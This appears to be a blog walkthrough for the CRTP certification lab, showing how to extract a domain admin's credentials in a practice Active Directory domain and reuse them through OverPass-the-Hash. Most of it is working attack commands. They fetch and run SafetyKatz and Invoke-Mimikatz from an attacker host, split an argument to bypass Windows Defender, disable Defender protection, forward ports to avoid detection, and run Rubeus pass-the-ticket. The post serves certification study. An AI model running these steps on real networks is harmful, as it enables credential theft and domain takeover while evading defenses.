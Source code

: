 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 2)
author: beardenx
date: 2024-07-01 00:00:00 +0800
categories: [Cert, CRTP]
tags: [cert,active directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 4: Extract Credential**

**Tools Used:** SafetyKatz.exe

### **Abuse using winrs**
To extract credentials from dcorp-mgmt, we will use SafetyKatz.exe. We need to avoid direct detection, so we'll transfer Loader.exe from dcorp-ci to dcorp-mgmt.

- Ensure WinRM Port is Open 

First, check if you can execute commands on dcorp-mgmt and confirm if the WinRM port is open:

```bash
winrs -r:dcorp-mgmt hostname;whoami
```
![Result](/img/crtp/result7.png){: width="972" height="589" }

- Download Loader.exe

Download Loader.exe to dcorp-ci:

```bash
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```

- Copy Loader.exe to dcorp-mgmt

Copy Loader.exe from dcorp-ci to dcorp-mgmt:

```bash
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

- Set Up Port Forwarding

Establish port forwarding on dcorp-mgmt to evade detection. Use $null for output redirection to prevent command execution issues:

```bash
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

- Generate Encoded Arguments

To bypass Windows Defender on dcorp-mgmt, encode arguments passed to Loader. Run the below command on the student VM to generate encoded arguments for sekurlsa::ekeys (this step does not need to be run on the reverse shell):

```bash
ArgSplit.bat
```

![Result](/img/crtp/result8.png){: width="972" height="589" }

- Create Batch File

Create a batch file with the encoded arguments. Below are the contents of the batch file(Safety.bat):
```bash
@echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn%
exit
```

Download the batch file on dcorp-ci:
```bash
iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat
```

- Copy Safety.bat to dcorp-mgmt

Copy the batch file from dcorp-ci to dcorp-mgmt:

```bash
echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat
```

- Execute Safety.bat

Run the batch file on dcorp-mgmt that uses Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt:

```bash
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat"
```

If successful, you should see output similar to:

```bash
Authentication Id : 0 ; 58866 (00000000:0000e5f2)
Session : Service from 0
User Name : svcadmin
Domain : dcorp
Logon Server : DCORP-DC
Logon Time : 3/3/2023 2:39:12 AM
SID : S-1-5-21-719815819-3726368948-3917688648-1118
 * Username : svcadmin
 * Domain : DOLLARCORP.MONEYCORP.LOCAL
 * Password : (null)
* Key List :
 aes256_hmac 
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
 rc4_hmac_nt b38ff50264b74508085d82c69794a4d8
 rc4_hmac_old b38ff50264b74508085d82c69794a4d8
 rc4_md4 b38ff50264b74508085d82c69794a4d8
 rc4_hmac_nt_exp b38ff50264b74508085d82c69794a4d8
 rc4_hmac_old_exp b38ff50264b74508085d82c69794a4d8
```

Sweet! We got credentials of svcadmin - a domain administrator. Note that svcadmin is used as a service account (see "Session" in the above output), so you can even get credentials in clear-text from lsasecrets!

### **Abuse using PowerShell Remoting**

- Check PowerShell Remoting

First, verify if you can execute commands on the dcorp-mgmt server using PowerShell remoting:

```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt
```
![Result](/img/crtp/result9.png){: width="972" height="589" }

This command returns the current username (ciadmin) and the computer name (dcorp-mgmt), confirming that PowerShell remoting is functional.

- Dump Hashes using Invoke-Mimikatz

To extract hashes, especially those of the domain admin (svcadmin), use Invoke-Mimikatz. First, host Invoke-Mimikatz.ps1 on your local machine (studentx) and execute it on the remote machine (dcorp-mgmt):

```bash
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

- Disable AMSI on dcorp-mgmt

To use Invoke-Mimikatz on dcorp-mgmt, you need to disable AMSI (Antimalware Scan Interface) since it may detect and block such activities. Here's how you can disable it:

```bash
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-Command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

- Execute Invoke-Mimikatz

After disabling AMSI, execute Invoke-Mimikatz on dcorp-mgmt to dump hashes:
```bash
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

This command retrieves sensitive information such as authentication details. For instance, it might show:

```bash
Authentication Id : 0 ; 58866 (00000000:0000e5f2)
Session : Service from 0
User Name : svcadmin
Domain : dcorp
Logon Server : DCORP-DC
Logon Time : 3/3/2023 2:39:12 AM
SID : S-1-5-21-719815819-3726368948-3917688648-1118
 * Username : svcadmin
 * Domain : DOLLARCORP.MONEYCORP.LOCAL
 * Password : (null)
 * Key List :
  aes256_hmac 
  6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
  rc4_hmac_nt b38ff50264b74508085d82c69794a4d8
  rc4_hmac_old b38ff50264b74508085d82c69794a4d8
  rc4_md4 b38ff50264b74508085d82c69794a4d8
  rc4_hmac_nt_exp b38ff50264b74508085d82c69794a4d8
  rc4_hmac_old_exp b38ff50264b74508085d82c69794a4d8
```

## **Step 5: OverPass-the-Hash with Rubeus**

Finally, use OverPass-the-Hash to leverage svcadmin's credentials. Execute the following command on the student VM:

- Prepare Arguments for Loader

Generate encoded arguments for Rubeus using ArgSplit.bat:

```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: asktgt
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```
These commands set up a variable Pwn with encoded arguments for Rubeus.

- Execute Loader with Rubeus

Run Loader.exe with Rubeus.exe, passing encoded arguments to request a TGT using svcadmin's credentials:

```bash
C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

`/user:svcadmin`: Specifies the user account for which the TGT should be requested.
`/aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011`: The AES256 encryption key used to encrypt the ticket.
`/opsec`: Operates in OPSEC (Operations Security) mode to minimize detection.
`/createnetonly:C:\Windows\System32\cmd.exe`: Creates a new process with network credentials only.
`/show`: Displays detailed output during execution.
`/ptt`: Passes the ticket to the current session.

- Execution and Output

Upon successful execution, Rubeus requests a TGT and imports it into the current session. Example output includes:

```bash
`ServiceName`: The Kerberos service name for which the TGT was requested (krbtgt/dollarcorp.moneycorp.local).
`ServiceRealm`: The realm associated with the Kerberos service (DOLLARCORP.MONEYCORP.LOCAL).
`UserName`: The user for whom the TGT was requested (svcadmin).
```

After obtaining the TGT, access domain resources using tools like winrs:

```bash
C:\Windows\system32>winrs -r:dcorp-dc cmd /c set username
USERNAME=svcadmin
```
This confirms successful use of svcadmin's credentials without direct access to dcorp-mgmt from the student's machine (172.16.100.X).

